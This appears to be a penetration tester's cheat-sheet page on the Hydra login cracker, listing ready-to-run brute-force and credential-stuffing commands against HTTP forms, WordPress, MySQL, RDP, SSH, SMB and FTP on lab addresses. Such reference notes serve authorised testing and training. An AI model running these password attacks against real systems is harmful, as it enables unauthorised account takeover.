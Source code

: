 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

## HTTP POST

```
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"
```

## WordPress

```
hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I
```

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## [[2. Enumeration/TCP/3389. Remote Desktop Protocol (RDP)/1. Guide|RDP]]

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
## SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

## FTP

```shell-session
hydra -l sam -P mut_password.list ftp://10.129.202.64 -t 64
```

## Credential Stuffing

When you have a list of valid usernames and passwords which you wish to attempt to login using the list:

```shell-session
hydra -C user_pass.list ssh://10.129.42.197
```
